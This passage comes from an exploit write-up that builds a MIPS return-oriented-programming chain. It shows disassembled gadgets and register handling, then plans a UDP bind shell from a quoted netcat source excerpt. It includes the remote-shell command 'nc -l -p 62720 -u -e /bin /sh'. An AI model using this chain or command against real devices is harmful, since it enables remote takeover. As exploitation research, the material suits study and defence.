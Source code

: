 The value written at any address above happens to be `$v0`, so we can jump after another load. Carefully observe the end of the function in the program, we can find such a gadget just meets our needs:

```
.text:004027C0 03 20 F8 09                 jalr    $t9
.text:004027C4 00 00 00 00                 nop
.text:004027C8
.text:004027C8             loc_4027C8:                              # CODE XREF: sub_402790+28↑j
.text:004027C8 8E 19 00 00                 lw      $t9, 0($s0)
.text:004027CC 17 31 FF FC                 bne     $t9, $s1, loc_4027C0
.text:004027D0 26 10 FF FC                 addiu   $s0, -4
.text:004027D4 8F BF 00 24                 lw      $ra, 0x1C+var_s8($sp)
.text:004027D8 8F B1 00 20                 lw      $s1, 0x1C+var_s4($sp)
.text:004027DC 8F B0 00 1C                 lw      $s0, 0x1C+var_s0($sp)
.text:004027E0 03 E0 00 08                 jr      $ra
.text:004027E4 27 BD 00 28                 addiu   $sp, 0x28
```

Before the actual jump to the stack address, `$a1`, `$a2` and `$a3` will be written to the stack at 0x004013D4 of the gadget. It needs to be combined to ensure that these three values ​​are nop instructions. If it affects the normal execution of the rop chain, it still needs to be customized at the very beginning, such as "clearing" `$a3` (it will become 0x0, 0x0, 0x1 after `close`):

```
.text:004020A0 00 00 38 21                 move    $a3, $zero       # flags
.text:004020A4 8F BC 00 18                 lw      $gp, 0x7C+var_64($sp)
.text:004020A8 8F 99 80 38                 la      $t9, close
.text:004020AC 03 20 F8 09                 jalr    $t9 ; close
.text:004020B0 02 00 20 21                 move    $a0, $s0         # fd
.text:004020B4
.text:004020B4             loc_4020B4:                              # CODE XREF: sub_401DF4+1AC↑j
.text:004020B4                                                      # sub_401DF4+238↑j ...
.text:004020B4 8F BF 00 84                 lw      $ra, 0x7C+var_s8($sp)
.text:004020B8 8F B1 00 80                 lw      $s1, 0x7C+var_s4($sp)
.text:004020BC 8F B0 00 7C                 lw      $s0, 0x7C+var_s0($sp)
.text:004020C0 03 E0 00 08                 jr      $ra
.text:004020C4 27 BD 00 88                 addiu   $sp, 0x88
```

Finally we jump to the shellcode, we need to realize the function of udp_bind_shell, there is not ready-made in msf, we can only look at the [code]( https://github.com/openbsd/src/blob/master/usr.bin/nc/netcat.c#L595) of [nc](https://www.sqlsec.com/2019/10/nc.html). When we use `nc -l -p 62720 -u -e /bin /sh`,  it firstly `recvfrom` to obtain the client address and then connect back:

```c
			} else if (uflag && !kflag) {
				/*
				 * For UDP and not -k, we will use recvfrom()
				 * initially to wait for a caller, then use
				 * the regular functions to talk to the caller.
				 */
				int rv;
				char buf[2048];
				struct sockaddr_storage z;

				len = sizeof(z);
				rv = recvfrom(s, buf, sizeof(buf), MSG_PEEK,
				    (struct sockaddr *)&z, &len);
				if (rv == -1)
					err(1, "recvfrom");

				rv = connect(s, (struct sockaddr *)&z, len);
				if (rv == -1)
					err(1, "connect");

				if (family == AF_UNIX) {
```